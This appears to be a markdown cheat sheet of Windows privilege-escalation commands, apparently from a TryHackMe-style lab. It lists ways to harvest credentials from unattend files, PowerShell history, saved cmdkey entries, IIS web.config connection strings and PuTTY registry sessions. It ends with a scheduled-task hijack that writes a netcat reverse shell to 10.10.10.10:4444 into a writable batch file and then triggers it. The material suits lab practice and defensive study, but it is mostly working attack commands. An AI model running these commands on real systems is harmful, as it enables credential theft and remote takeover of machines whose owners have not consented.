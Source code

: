 # Password History ✅
## File-Unattended ✅
### cmd ✡️
```cmd
dir C:\sysprep.inf /s /p
dir C:\sysprep.xml /s /p
dir C:\unattend.xml /s /p
```
### powershell ✡️
```powershell
Get-ChildItem -Path C:\ -Filter "sysprep.inf" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\ -Filter "Unattend.xml" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Windows\Panther\ -Filter "*.xml" -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Windows\system32\sysprep\ -Filter "*.xml" -Recurse -ErrorAction SilentlyContinue
```
## Powershell History ✅
### cmd ✡️
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt # run in cmd
```
### powershell ✡️
```powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt # run in powershell
```
## Saved Windows Credentials ✅
```powershell
cmdkey /list # show save user credentials
runas /savecred /user:<username> cmd.exe # run cmd with another user 
runas /savecred /user:<username> powershell.exe # run powershell with another user
```
## IIS Configuration ✅
```cmd
type C:\inetpub\wwwroot\web.config | findstr connectionString
forfiles /p C:\ /s /m web.config /c "cmd /c findstr /i connectionString @file" 2>$null
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
## Retrieve Credentials from Software: PuTTY ✅
```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

# Scheduled Tasks ✅
```cmd
schtasks /query /tn vulntask /fo list /v  # target system
# ⬇️⬇️⬇️⬇️⬇️⬇️
# Folder: \
# HostName:                             THM-PC1
# TaskName:                             \vulntask
# Task To Run:                          C:\tasks\schtask.bat
# Run As User:                          taskusr1
------------------------------
icacls c:\tasks\schtask.bat # check the file permissions in target system 
------------------------------
echo c:\tools\nc64.exe -e cmd.exe 10.10.10.10 4444 > C:\tasks\schtask.bat # target system
------------------------------
nc -lvnp 4444 # our kali
------------------------------
schtasks /run /tn vulntask # target system
```
